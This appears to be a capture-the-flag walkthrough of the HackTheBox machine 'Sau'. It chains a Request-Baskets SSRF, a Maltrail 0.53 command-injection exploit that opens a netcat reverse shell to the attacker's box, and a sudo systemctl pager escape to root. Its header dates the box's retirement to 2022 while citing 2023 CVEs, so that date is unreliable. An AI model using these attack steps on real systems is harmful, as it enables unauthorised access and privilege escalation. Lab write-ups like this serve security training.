


---

title: "Sau (HackTheBox | Easy | Retired 15 Apr 2022)"
subtitle: "SSRF → Maltrail RCE → systemctl pager escape → root"
author: "<YOUR NAME>"
date: "`r Sys.Date()`"
output:
github\_document:
toc: true
---------

<span style="color:#d9534f;"><strong>Path‑to‑root</strong></span>: **SSRF in Request‑Baskets 1.2.1** → internal **Maltrail 0.53** panel → unauth RCE (user <code>puma</code>) → sudo mis‑configuration (<code>systemctl</code> pager) → <strong>root</strong>.

---

# 0  Synopsis

|                |                                                  |
| -------------- | ------------------------------------------------ |
| **OS**         | Ubuntu 20.04 (Linux)                             |
| **Difficulty** | Easy                                             |
| **Skills**     | SSRF, internal‑pivoting, command inj, sudo abuse |
| **Major CVE**  | CVE‑2023‑27163 • CVE‑2023‑26604                  |

---

# 1  Enumeration

## 1.1  Port scan

```bash
nmap -sC -sV -oN sau_nmap.txt 10.10.11.224
```


* 22/tcp  → OpenSSH 8.2p1
* 55555/tcp  → **Request‑Baskets 1.2.1**

## 1.2  Request‑Baskets (port 55555)

Create basket `/sranwqq` → set **Forward URL** to <code>[http://127.0.0.1:80](http://127.0.0.1:80)</code> and tick *Proxy Response* + *Expand Forward Path*.



Visiting the basket endpoint reveals the internal **Maltrail v0.53** panel.


---

# 2  Foothold — Maltrail 0.53 RCE

Maltrail v0.53 allows unauthenticated command injection via the <code>sensor\_name</code> field.

> **Exploit script** · [`maltrail_poc.py`](maltrail_poc.py) — credit 0x0mar (Exploit‑DB #51676)

```bash
# attacker box
nc -lvnp 4444 &
python3 maltrail_poc.py \
        --lhost 10.10.14.6 --lport 4444 \
        --url "http://10.10.11.224:55555/sranwqq/track"
```

Reverse shell arrives as user <code>puma</code>.


---

# 3  Privilege escalation — `systemctl` pager escape

Check sudo:


```bash
sudo /usr/bin/systemctl status trail.service
# when the output opens inside the less pager
!/bin/bash
```

Root shell achieved.



---

# 4  Artifacts & hashes

| File                         | Purpose               | SHA‑256        |
| ---------------------------- | --------------------- | -------------- |
| `maltrail_poc.py`            | Unauth RCE exploit    | `<paste‑hash>` |
| `systemctl_pager_escape.txt` | One‑liner cheat‑sheet | N⁄A            |

---

# 5  Flags

| Path                  | MD5 hash                           |
| --------------------- | ---------------------------------- |
| `/home/puma/user.txt` | `xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx` |
| `/root/root.txt`      | `yyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy` |

---

# 6  References

* **CVE‑2023‑27163** — Request‑Baskets SSRF [https://nvd.nist.gov/vuln/detail/CVE-2023-27163](https://nvd.nist.gov/vuln/detail/CVE-2023-27163)
* **Exploit‑DB 51676** — Maltrail 0.53 RCE [https://www.exploit-db.com/exploits/51676](https://www.exploit-db.com/exploits/51676)
* **CVE‑2023‑26604** — systemd pager LPE [https://nvd.nist.gov/vuln/detail/CVE-2023-26604](https://nvd.nist.gov/vuln/detail/CVE-2023-26604)
